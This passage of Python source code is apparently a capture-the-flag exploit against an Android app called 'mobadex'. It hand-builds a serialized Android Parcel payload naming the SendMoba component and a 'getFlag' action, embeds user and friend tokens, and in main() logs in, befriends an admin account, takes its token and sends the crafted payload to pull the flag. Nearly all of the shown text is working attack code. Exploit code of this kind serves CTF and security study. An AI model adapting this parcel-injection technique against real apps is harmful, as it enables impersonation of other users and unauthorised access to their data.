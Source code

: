 ```python
    p += p32(len('com.example.mobadex.SendMoba')) # value length
    p += 'com.example.mobadex.SendMoba\x00'.encode('utf-16le') # value
    p += b'\x00' * (-len(p) % 4) # padding

    p += p32(len('moba_display_content'))
    p += 'moba_display_content\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0)
    p += p32(len('data'))
    p += 'data\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding

    p += p32(len('moba_display_package'))
    p += 'moba_display_package\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0)
    p += p32(len('com.example.mobadex'))
    p += 'com.example.mobadex\x00'.encode('utf-16le')  
    p += b'\x00' * (-len(p) % 4) # padding

    p += p32(len('moba_data'))
    p += 'moba_data\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0)
    p += p32(len('getFlag'))
    p += 'getFlag\x00'.encode('utf-16le')  
    p += b'\x00' * (-len(p) % 4) # padding

    p += p32(len('moba_user_token'))
    p += 'moba_user_token\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0)
    p += p32(len(user_token))
    p += f'{user_token}\x00'.encode('utf-16le')  
    p += b'\x00' * (-len(p) % 4) # padding

    p += p32(len('moba_friend_token'))
    p += 'moba_friend_token\x00'.encode('utf-16le')
    p += b'\x00' * (-len(p) % 4) # padding
    p += p32(0)
    p += p32(len(friend_token))
    p += f'{friend_token}\x00'.encode('utf-16le')  
    p += b'\x00' * (-len(p) % 4) # padding

    # fix the size
    p[0:4] = p32(len(p[8:]))
    return b64encode(p)


def main():
    token = get_token('umut','123456');
    add_friend(token, 'Admin_Fedex')
    friend_token = get_friend_token('Admin_FeDEX', token)
    add_friend(friend_token, 'umut')
    payload = create_payload(friend_token, token)
    send_moba(token, friend_token, payload)


if __name__ == '__main__':
    main()
```

